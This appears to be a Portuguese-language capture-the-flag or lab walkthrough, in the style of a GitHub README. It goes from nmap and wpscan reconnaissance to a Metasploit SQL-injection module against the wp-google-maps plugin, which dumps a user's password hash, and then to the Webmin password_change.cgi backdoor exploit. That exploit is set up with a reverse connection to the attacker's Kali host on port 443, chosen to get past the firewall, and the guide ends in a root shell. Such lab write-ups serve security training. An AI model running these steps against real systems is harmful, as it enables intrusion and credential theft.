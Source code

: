 # First Pass Recon

```
1º sudo nmap -sS -T4 'Seu IP'
``` 
"Utilizar o IP do Kali para descobrir os outros dispostivos na rede, e assim saber os serviços que estão rodando."

```
2º wpscan  —url ‘IP ALVO’
```
"Utilizando o "wpscan", para assim levantar os plugins que estão rodando dentro da aplicação em questão. 
 Analisando então os plugins, pode-se localizar o plugin 'wp-google-maps'."

```
3º sudo nmap -sV -p- -v -Pn 'IP ALVO' 
> -sV : Obtém a versão dos serviços rodando no alvo.
> -p- : Realiza um scanner em todas as 65535 portas.
> -v : Modo verboso.
> -Pn : Ignora o ICMP. 
```
"Localize na saída analise os serviços utilizados pela aplicação e de atenção ao 'Webmin' 
 Dentro do terminal no Kali Linux utilize 'searchsploit webmin' Lista os exploits"

```
4º sudo msfconsole
```
"Fornece informações sobre vulnerabilidades de segurança e auxilia em testes de penetração e desenvolvimento de assinaturas IDS."

```
5º msf5 > search wp-google-maps
```
"Busca na ferramenta exploits para os plugins levantados no passo 2, localize o modo auxiliar para SQLinjection no wp-google-maps."

```
6º msf5 > use 0  
```
"Efetua no Metasploit o uso do auxiliar para SQLinjection."

```
7º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra as opções e quais dados devem ser setados no exploit."

```
8º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO' 
rhosts ⇒ ip do alvo
```
"Adiciona o IP do alvo ao exploit para SQLinjection" 

```
9º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```
"Efetua o SQLinjection, trazendo no console que existe uma credencial salva no server, 
 capturando assim o ID e HASH da senha do usuário. 

```
10º msf5 auxiliary (admin/http/wp-google-maps-sqli) > search webmin 
```
"O MSF lista os exploits, no caso veja que foi encontrado o 'webmin password_change.cgi Backdoor', 
 exploit que será explorado nesse lab."

```
11º msf5 auxiliary (admin/http/wp-google-maps-sqli) > use 2
```
"Comando para iniciar o exploit que será utilizado."

```
12º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Mostra todas as opções que se pode setar no exploit, mostrando também que já veio setado um 'payload' no caso em questão, 
 caso não viesse, o usuário deveria fazer o 'payload'."

```
13º msf5 auxiliary (admin/http/wp-google-maps-sqli) > info 
```
"Analisa as informações do exploit, mostrando a versão."

```
14º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set forceexploit true 
```
"Caso a versão seja diferente o comando 'force' faz com que o msf execute o exploit independente da versão." 

```
15º msf5 auxiliary (admin/http/wp-google-maps-sqli) > options 
```
"Analise as informações a serem setadas, como no caso o 'rhosts, lhost, lport e ssl'."

```
16º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set rhosts 'IP ALVO'
> rhost: IP DO ALVO 
(Realiza conexão remota)
```

```
17º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lhost 'IP KALI' 
> lhost: IP KALI 
(Recebe a conexão reversa)
```

```
18º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set lport 443
> lport: 443 
(Número da porta onde irá simular a conexão com a web, evitar setar número alto para burlar o firewall.)
```

```
19º msf5 auxiliary (admin/http/wp-google-maps-sqli) > set ssl true 
> ssl: TRUE 
(Confirma para que assim tenha a conexão)
```

```
20º msf5 auxiliary (admin/http/wp-google-maps-sqli) > run 
```

Após o msf5 abrir a sessão com o alvo, digite 'whoami' caso seja 'root' digite no terminal -> shell <- acesso realizado. 
